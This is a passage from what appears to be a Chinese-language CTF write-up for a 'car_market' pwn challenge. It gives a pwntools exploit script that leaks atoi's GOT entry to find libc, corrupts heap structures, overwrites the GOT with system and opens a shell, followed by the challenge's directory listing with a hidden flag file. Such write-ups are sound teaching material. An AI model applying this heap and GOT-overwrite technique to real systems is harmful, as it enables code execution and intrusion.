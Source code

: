 ```python exp_car.py
    r.sendlineafter(">\n", "3") # add comment
    r.sendlineafter(": \n", p64(0x1111) + p64(elf.got['atoi']))
    r.sendlineafter(">\n", "4") # exit customer menu
    r.sendlineafter(">\n", "5") # exit select car menu
    
    # leak atoi's got
    log.info("leaking atoi's got & libc base...")
    leak_got(15)
    system = libc.symbols['system']
    log.success("libc base: "+hex(libc.address))
    log.success("system: "+hex(system))

    # overwrite customer pointer to heap_base+0x10
    log.info("modifying car 15 struct (for corrupting car array)...")
    choice = [3]
    data   = [p64(0x1111) + p64(heap_base+0x10)]
    sel_car_cust(16, zip(choice, data))   
    r.sendlineafter(">\n", "5") # exit select car menu

    # free & reallocate heap_base+0x10 , now we can control the car array 
    # after we control the car array, overite car[14] and make it point to atoi's got
    log.info("modifying car array...")
    choice = [3]
    data   = ["A"*0x20+p64(elf.got['atoi'])]
    sel_car_cust(15, zip(choice, data))   
    r.sendlineafter(">\n", "5") # exit select car menu
    
    # overwrite atoi's got
    log.info("overwriting atoi's got...")
    r.sendlineafter(">\n", "4") # select car
    r.sendlineafter("index\n", "14") # input index
    r.sendlineafter(">\n", "2") # set model (atoi's got)
    r.sendlineafter("model\n", p64(system))
    r.sendline("sh\x00")

    log.success("get shell !")
    r.interactive()
```
寫完 exploit 之後拿來跑，然後就 timeout 了... 

傳到 trello 請 Ann Tsai 幫忙跑之後就去睡了，結果醒來時卻發現這題還沒過 @@ 
原來是 Ann Tsai 在拿到 shell 之後找不到 flag ?! 

結果用她的機器進行測試的時候發現 flag 藏在一個頗猥瑣的位置

<pre>
$ ls -la
total 40
drwxr-x--- 2 root marketpwn  4096 Sep  8 10:02 .
drwxr-xr-x 3 root root       4096 Sep  8 09:51 ..
lrwxrwxrwx 1 root marketpwn     9 Sep  8 09:59 .bash_history -> /dev/null
-rw-r--r-- 1 root marketpwn   220 Sep  8 09:51 .bash_logout
-rw-r--r-- 1 root marketpwn  3771 Sep  8 09:51 .bashrc
-rwxr-xr-x 1 root marketpwn 10504 Sep  8 09:56 car_market
-r--r----- 1 root marketpwn    39 Sep  8 09:57 ._flag
-rw-r--r-- 1 root marketpwn   655 Sep  8 09:51 .profile
-rwxr-xr-x 1 root marketpwn   104 Sep  8 09:56 wrapper.sh
</pre>
